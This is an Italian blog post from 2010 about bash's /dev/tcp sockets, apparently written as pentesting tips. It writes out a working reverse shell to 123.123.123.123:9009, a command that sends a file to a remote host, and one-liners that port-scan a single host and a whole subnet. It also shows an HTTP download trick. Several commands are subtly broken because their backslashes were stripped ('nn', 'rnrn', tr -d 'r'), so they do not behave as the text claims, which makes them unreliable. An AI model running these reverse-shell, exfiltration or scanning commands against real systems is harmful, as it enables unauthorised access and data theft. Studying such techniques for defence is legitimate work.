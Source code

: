 ```yaml
---
comments: true
date: 2010-07-03 18:08:30
layout: post
slug: bash-networking-tricks
title: Bash networking tricks
wordpress_id: 652
categories:
- How to
- Networking
- Pentesting
- Security
- Shell
- Snippets
tags:
- bash
- networking
- shell
- Tricks
---
```


Un articolo dell'ottimo [voipandhack.it](http://www.voipandhack.it/archives/linux/bash-socket-programming) mi ha fatto conoscere una _feature_ di bash che permette di aprire socket verso host remoti. In rete si trovano interessanti utilizzi di questa tecnica, da semplici browser per scaricare file via HTTP, a trasferimenti di file via rete, a reverse shell e port scanner senza l'utilizzo di alcun programma esterno. Solo una pura e semplice shell bash.

Proviamo ad analizzare qualche linea di codice utile da dare in pasto alla nostra shell, e per capire il funzionamento effettuiamo una richiesta HTTP verso il server Google direttamente con la nostra bash

```bash
utente@linux:~$ exec 5<>/dev/tcp/www.google.com/80
utente@linux:~$ echo -e "GET / HTTP/1.0nn" >&5
utente@linux:~$ cat <&5
HTTP/1.0 302 Found
Location: http://www.google.it/
....
```



Nella prima riga il comando `exec` [redirige](http://tldp.org/LDP/abs/html/x17601.html) l'input e l'output (`<>`) del file `/dev/tcp/www.google.com/80` sul file descriptor numero 5. Quindi scrivendo e leggendo su questo file descriptor come si fa normalmente con i vari standard input/output/error, possiamo inviare e ricevere stringhe sulla porta 80 di google.com. Alla path `/dev/tcp/www.google.com/80` non corrisponde un vero file: bash intercetta la chiamata e apre un socket verso l'host. E' possibile comunicare anche su udp sostituendolo nella finta path al posto di _tcp_.

### Reverse shell

La prima cosa che mi è venuta in mente quando ho letto di questa tecnica, è stata la possibile implementazione di una reverse shell compatta, scritta con poche righe e utilizzabile senza bisogno di programmi esterni come nc, o ssh e telnet. Su GNUCITIZEN riportano una ottima [soluzione](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) su come implementare una reverse shell che si connetta a una porta remota in attesa di comandi da eseguire. Sulla nostra macchina, apriamo una porta con netcat, naturalmente raggiungibile dall'esterno a un certo ip pubblico, con il comando

```bash
utente@client:~$ nc -l -p 9009
```

Sulla macchina remota istruiamo bash per connettersi al nostro IP, che supponiamo sia 123.123.123.123, alla porta 9009 da cui impartiremo i comandi alla shell

```bash
utente@server:~$ exec 5<>/dev/tcp/123.123.123.123/9009
utente@server:~$ cat <&5 | while read line; do $line 2>&5 >&5; done
```

Ogni comando scritto nel netcat della nostra macchina _client_ verrà eseguito sulla macchina _server_, e verrà restituito l'output al client. Funziona che è una meraviglia.

### Download di file via HTTP

Questa feature di bash viene in soccorso quando desideriamo scaricare un file su una macchina remota, ma non disponiamo di wget, curl, lynx, e utility simili. Con [questa](http://www.pebble.org.uk/linux/bashbrowser) semplice stringa

```bash
utente@linux:~$ (echo -e "GET /index.html HTTP/0.9rnrn" 1>&3 & cat 0<&3) 3<>/dev/tcp/www.google.it/80 | (read i; while [ "$(echo $i | tr -d 'r')" != "" ]; do read i; done; cat) > index.html`
```



Il file `/index.html` verrà scaricato dal web server `www.google.it:80` e salvato nel file locale `index.html`. Scarica senza problemi qualsiasi tipo di file, compresi binari, archivi etc. Naturalmente non sono gestiti errori, redirect, e non utilizza i parametri Host o User-Agent, ma comunque dovrebbe bastare per una richiesta HTTP semplice. Eventuali parametri necessari possono essere facilmente aggiunti alla stringa che contiene il GET.

### Trasferimento file da e verso un server remoto

Può servire come metodo per trasferire file da una macchina all'altra, nel caso il server non possieda tool o demoni per il trasferimento di file come ftp, scp, eccetera. Per **inviare un file verso il server remoto**, redirigiamo il contenuto del file `file_to_send` al comando netcat, che apre sulla nostra macchina una porta in attesa

```bash
utente@client:~$ cat file_to_send | nc -l -p 9009
```

Sulla macchina remota che deve ricevere il file eseguiamo il comando

```bash
utente@server:~$ bash -i >& /dev/tcp/123.123.123.123/9009 0>&1 > file_received
```

In questo modo il `server` si connette alla porta 9009 e legge il file `file_to_send`, che viene quindi duplicato sulla macchina remota. In maniera simile è possibile **prelevare un file dal server remoto**. Utilizziamo netcat per aprire una porta in attesa sulla nostra macchina, il cui input sarà rediretto verso il file `received_file`

```bash
utente@client:~$ nc -l -p 9009 > received_file
```

Con un banale comando `echo` iniettiamo successivamente il file `file_to_send` verso la porta che abbiamo aperto sulla nostra macchina

```bash
utente@server:~$ cat file_to_send > /dev/tcp/123.123.123.123/9009
```

### Port scanning

L'articolo su [voipandhack.it](http://www.voipandhack.it/archives/linux/bash-socket-programming) spiega come fare un semplice port scanner con la tecnica del /dev/tcp. Ho modificato leggermente il codice, ma il comando da utilizzare è

```bash
utente@client:~$ h="192.168.1.1"; for p in {0..1024}; do (echo >/dev/tcp/$h/$p) >/dev/null 2>&1 && echo "$h:$p"; done
192.168.1.1:80
192.168.1.1:443
```

Effettua un port scanning su l'host specificato nella variabile $h, dalla porta 0 alla porta 1024. Una variazione interessante può essere lo **scanning della sottorete** alla ricerca di una porta che accetta le connessioni

```bash
utente@server:~$ n="192.168.1."; p=80; for h in {0..255}; do (echo >/dev/tcp/$n$h/$p) >/dev/null 2>&1 && echo -e "n192.168.1.$h:$p" || echo -n "."; done
.
192.168.1.1:80
..........................................
192.168.1.56:80
.......................
192.168.1.98:80
................................................................................................................
```


Come vedete questa linea di bash enumera tutti i computer della sottorete definita in $n che hanno la porta $p aperta. E' un utile strumento per vedere le macchine che accettano connessioni nella propria lan, o nella lan di una macchina remota che non possiede nmap o strumenti simili.

Happy bashing, qualunque cosa voglia dire.
